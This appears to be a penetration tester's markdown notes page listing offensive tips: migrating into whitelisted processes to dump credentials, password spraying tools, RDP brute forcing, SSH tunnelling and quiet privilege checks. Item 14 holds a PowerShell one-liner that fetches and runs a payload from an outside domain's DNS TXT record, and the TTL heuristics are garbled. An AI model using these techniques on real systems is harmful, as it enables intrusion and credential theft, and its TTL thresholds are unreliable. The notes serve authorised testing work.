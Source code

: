 ```yaml
---
description: Unorganized collections of my notes from CTFs and penetration tests
---
```


# Offensive Security Notes

1\. Search for whitelisted applications when looking to migrate and dump credentials. During a penetration test I was struggling to dump credentials with Kiwi as a PoC. Migrating into an AppSense application that is required to be whitelisted by endpoints can result in easy l00t. [This link](https://knowledge.broadcom.com/external/article/171640/dlp-endpoint-agent-causes-delays-when-fi.html) lists a few of the executables that I was able to migrate into with Meterpreter and proceed to execute Kiwi from, namely EMUser.exe.

2\. Time to Live

```bash
TTL > 64 it is most likely a Linux box
TTL > 128 it is most likely a Windows
TTL < 128 most likely some type of networking device.
```

3\. Some quick notes on organizing tooling:

* Download and place the tool into /opt/ (e.g., Aquatone).&#x20;
* Execute the following command on the Aquatone binary: `ln -s /opt/aquatone/aquatone /usr/local/bin/aquatone`

3\. Reverse shell preferences:

* External: Bind shell
* Internal: Reverse shell

4\. [Microsoft has a great reference](https://docs.microsoft.com/en-us/dotnet/framework/migration-guide/versions-and-dependencies) for .NET Framework & Windows OS Versions. We can then [use a precompiled binary from SharpCollection](https://github.com/Flangvik/SharpCollection) to exploit the system.

* Compile the binaries yourself.. Unless it's a CTF.

5\. Performing password spraying with [SprayCharles](https://github.com/Tw1sm/spraycharles) from my experience is more successful than using the [SprayingToolkit](https://github.com/byt3bl33d3r/SprayingToolkit). Ran into a situation on an engagement where multiple valid logins were reported as invalid by SprayingToolkit.&#x20;

6\. Kali Linux allows for multiple IP addresses to be set manually on an interface, allowing for you to set multiple callbacks in case one of your IP addresses gets banned. The following demonstrates a screenshot of this:

![](https://i.imgur.com/FYiHJX6.png)

7\. Download a Nessus scan via Metasploit:

```bash
# Load the Nessus plugin
load Nessus

# Authenticate to Nessus
nessus_connect $username:$password@127.0.0.1:8834

# List Available Nessus Scans (Pay attention to the ID)
nesssus_scan_list

# Export the Nessus Scan
Nessus_scan_export $id nessus

Download the Nessus scan to ~/.msf
nessus_report_download $id $fileid

# Report is then accessible in the ~/.msf4/local directory
# Rename the file to $client.nessus
```

8\. Quick SSH tips:

#### Add SOCKS to an Existing SSH Connection

```bash
<enter> ~C
-D 1080
```

#### Forward a Port on an Existing SSH Connection

```bash
<enter> ~C
-L 1337:localhost:1337
```

9\. Make your life significantly easier when analyzing email headers with [Message Header Analyzer](http://mha.azurewebsites.net).

10\. Trying to make a high quality screenshot to illustrate commands used? Check out [carbon.now.sh](https://carbon.now.sh/).&#x20;

10\. Don't know what a command does? There's no shame in that. For Linux check out [ExplainShell](https://explainshell.com/) and for PowerShell use[ ExplainPowershell](https://www.explainpowershell.com/).&#x20;

11\. Check the configuration of LAPS using a machine account per [@HackingLZ](https://twitter.com/hackinglz), as it was noted that configurations are often messed up for them.&#x20;

12\. Your daily reminder that RDP local admin bruteforce has no rate limiting.

13\. If you have a shell on a Windows host and need to check if your process is high integrity without sounding alarms, you can issue the following check:

```bash
# >= high if file listing is shown
CMD -> dir \windows\temp
PowerShell --> ls \windows\temp
```

14\. A fun way to execte payloads is via a domains TXT record, the following command will run the provided payload:

```bash
powershell . (nslookup -q=txt parzival.sh)[-1]
```

15\. Always perform content discovery both as an unauthenticated and authenticated user (provide cookies to tool of choice)
